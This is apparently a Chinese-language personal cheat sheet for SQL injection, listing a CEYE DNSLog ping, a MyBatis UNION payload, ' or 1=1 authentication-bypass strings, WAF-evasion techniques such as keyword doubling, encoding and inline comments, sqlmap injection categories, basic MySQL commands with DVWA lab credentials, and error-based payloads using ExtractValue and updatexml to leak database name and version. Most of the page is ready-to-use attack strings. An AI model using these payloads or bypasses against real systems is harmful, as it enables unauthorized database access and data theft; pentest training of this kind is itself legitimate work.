 ## CEYE DNS
   ping n.6vlqdr.ceye.io

## mybatis concat #{name} 注入 payload
*  ' UNION SELECT "1","2","3","4","5" -- '

## 注入万能尝试语法
    ' or 1=1 --+
    " or 1=1 --+
    )' or 1=1 --+
    )" or 1=1 --+
## 绕过waf
    大小写混合 uNIoN sELecT 1,2,3,4
    2.替换关键字 selselectect 1,2,3,4
    使用编码 %55nion %53elect 1,2,3,4
    使用注释 union/**/select 1,2,3,4
    等价函数与命令 @@datadir ==> datadir()
    特殊符号 select+id+from users;
## sql 注入类型 工具 sqlmap
    boolean-based blind 基于Boolean的盲注
    time-based blind 基于时间的盲注error-based 基于报错
    UNION query-based 基于联合查询
    stacked queries 基于多条SQL语句（堆叠注入）
    out-of-band（OOB） 非应用内通信注入，比如DNSLog
    
## mysql 基本操作
    INSERT INTO test (name,phone,yx) VALUES ("z","1","x") 增加
    SELECT * FROM test WHERE name="z" 查询
    UPDATE test SET name="zz" WHERE name="z" 改
    DELETE FROM test where name="zz" 删除
    user dvwa
    password password
    SHOW DATABASES; 查看数据库
    shwo tables; 查看表
    show global variables 查看变量
    SHOW COLUMNS FROM sys_user 查询列
    SELECT DATABASE(); 查询数据库名称
    SELECT USER();
    SELECT version();
    SELECT area_id FROM t_area ORDER BY area_id ASC  排序
    UNION  SELECT * FROM sys_user WHERE user_id="1" UNION SELECT * FROM sys_user WHERE account="liugp" 两条语句用于连接
    SELECT GROUP_CONCAT(account) FROM sys_user  字符拼接成一行
    SELECT if(1=1,1,2)  三元判断
    select sleep(1) 延迟执行
    SELECT ExtractValue('<a><b>ssss</b></a>','/a/b') AS val -- ssss; 就是寻找前一段xml文档内容中的a节点下的b节点，这里如果Xpath格式语法书写错误的话，就会报错。这里就是利用这个特性来获得我们想要知道的内容。 注入 SELECT ExtractValue('<a><b>ssss</b></a>',concat(0x7e,(SELECT database()),0x7e))
    SELECT updateXML('<f>111</f>','/f','<e>fff</e>') AS val1 替换 注入sql SELECT updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
 
 